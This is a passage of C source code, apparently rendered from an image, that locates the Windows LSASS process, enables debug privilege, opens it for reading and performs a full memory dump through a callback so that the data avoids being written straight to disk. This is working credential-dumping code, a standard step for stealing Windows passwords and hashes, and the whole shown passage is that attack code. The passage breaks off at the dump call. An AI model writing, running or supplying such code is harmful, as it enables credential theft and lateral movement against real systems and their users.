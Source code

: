 ```c
		CloseHandle(hToken);
		printf("[-] Could not adjust to SeDebugPrivs\n");
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}

// Find PID of a process by name
int FindPID(const char* procname)
{
	int pid = 0;
	PROCESSENTRY32 proc = {};
	proc.dwSize = sizeof(PROCESSENTRY32);

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	bool bProc = Process32First(snapshot, &proc);

	while (bProc)
	{
		if (strcmp(procname, proc.szExeFile) == 0)
		{
			pid = proc.th32ProcessID;
			break;
		}
		bProc = Process32Next(snapshot, &proc);
	}
	return pid;
}

int main(int argc, char** argv) 
{
	// Find LSASS PID
	printf("[+] Searching for LSASS PID\n");
	int pid = FindPID("lsass.exe");
	if (pid == 0) {
		printf("[-] Could not find LSASS PID\n");
		return 0;
	}
	printf("[+] LSASS PID: %i\n", pid);
	
	// Make sure we have SeDebugPrivilege enabled
	if (!SetDebugPrivilege())
		return 0;

	// Open handle to LSASS
	HANDLE hProc = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, false, pid);
	if (hProc == NULL) {
		printf("[-] Could not open handle to LSASS process\n");
		return 0;
	}

	// Create a "MINIDUMP_CALLBACK_INFORMATION" structure that points to our DumpCallbackRoutine as a CallbackRoutine
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo = { 0 };
	CallbackInfo.CallbackRoutine = DumpCallbackRoutine;

	// Do full memory dump of lsass and use our CallbackRoutine to handle the dump data instead of writing it directly to disk
	BOOL success = MiniDumpWriteDump(hProc, pid, NULL, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);
```